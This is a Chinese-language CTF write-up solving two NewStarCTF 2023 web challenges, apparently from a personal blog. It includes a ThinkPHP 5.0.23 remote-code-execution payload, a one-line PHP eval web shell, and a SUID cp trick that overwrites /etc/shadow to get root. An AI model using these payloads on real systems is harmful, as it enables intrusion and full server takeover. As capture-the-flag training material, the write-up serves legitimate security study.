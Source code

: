 ```yaml
---
title: NewStarCTF2023 week5 web前两题
date: 2023-10-30 16:48 +0800
categories: [CTF,WEB]
tags: [web]
media_subpath: /assets
---
```




## Unserialize Again

源题目内容

```php
<?php
highlight_file(__FILE__);
error_reporting(0);  
class story{
    private $user='admin';
    public $pass;
    public $eating;
    public $God='false';
    public function __wakeup(){
        $this->user='human';
        if(1==1){
            die();
        }
        if(1!=1){
            echo $fffflag;
        }
    }
    public function __construct(){
        $this->user='AshenOne';
        $this->eating='fire';
        die();
    }
    public function __tostring(){
        return $this->user.$this->pass;
    }
    public function __invoke(){
        if($this->user=='admin'&&$this->pass=='admin'){
            echo $nothing;
        }
    }
    public function __destruct(){
        if($this->God=='true'&&$this->user=='admin'){
            system($this->eating);
        }
        else{
            die('Get Out!');
        }
    }
}                 
if(isset($_GET['pear'])&&isset($_GET['apple'])){
    // $Eden=new story();
    $pear=$_GET['pear'];
    $Adam=$_GET['apple'];
    $file=file_get_contents('php://input');
    file_put_contents($pear,urldecode($file));
    file_exists($Adam);
}
else{
    echo '多吃雪梨';
} 
```

题目这里的考点应该 phar 反序列化，但是可能出题人出的不够严谨，这里出现了非预期

非预期可以直接命令执行，获取flag

![Unserialize Again_非预期exp](Unserialize Again_非预期exp.jpg)

![Unserialize Again_非预期结果](Unserialize Again_非预期结果.jpg)



## Final

一个thinkphp 5.0.23，存在命令执行漏洞。

过滤了 system（phpinfo 可以正常执行），之后是低权

```
_method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1
```



![image-20231030131251182](image-20231030131251182.png)

payload：

```
GET
/index.php?s=captcha
POST
_method=__construct&filter[]=passthru&method=get&server[REQUEST_METHOD]=id
```

写马 进行提权，后面使用哥斯拉 超级终端。

```
echo '<?php @eval($_POST[12]); ?>' > 1.php
```

查看suid 存在cp，我们可以直接cp shadow 查看 root 密码，这里的root 没有显示密码，我们直接修改shadow 

![image-20231030162316084](image-20231030162316084.png)

![image-20231030164151705](image-20231030164151705.png)



cp suid payload

```
LFILE=file_to_write
echo "DATA" | ./cp /dev/stdin "$LFILE"
```

直接copy 到命令行

```
# root:*:17847:0:99999:7:::

LFILE=/etc/shadow
echo "root::17847:0:99999:7:::" | /bin/cp /dev/stdin "$LFILE"

su root
cat /flag*
```

![image-20231030164051944](image-20231030164051944.png)
